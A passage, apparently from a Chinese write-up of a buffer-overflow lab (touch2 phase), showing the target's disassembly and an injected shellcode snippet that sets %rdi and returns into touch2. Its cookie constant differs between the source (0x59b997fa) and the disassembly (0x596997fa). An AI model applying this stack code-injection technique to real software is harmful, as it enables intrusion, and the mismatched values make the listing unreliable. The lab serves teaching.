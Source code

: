 可得这次我们在调用 `touch2` 的同时，还需要向它传入一个值为 `cookie` 值的参数，否则直接调用会判定为失败：

![](srcs/3-2-f.png)

查看反汇编：

```asm
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
```

看起来我们需要在调用 `touch2` 前修改 `%rdi` 寄存器的值。这就要求我们进行代码注入：

```asm
movq    $0x59b997fa, %rdi
pushq   0x4017ec
ret
```

如题目说明中所说，`ret` 是比较方面操作跳转地址的，所以我们采用 `ret` 指令

在跳转前，修改 `%rdi` 寄存器，并把要跳转的 `touch2` 地址压入栈

接着先汇编再反汇编：

![](srcs/3-2-1.png)

得到这段代码的机器码：

```asm
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 69 59    mov    $0x596997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

这次，我们帧栈中的返回值应该改为这段注入代码的地址。我们不妨把这段注入代码放在 buf 开头，这样直接打断点，看栈指针即可获取我们需要的地址：

![](srcs/3-2-2.png)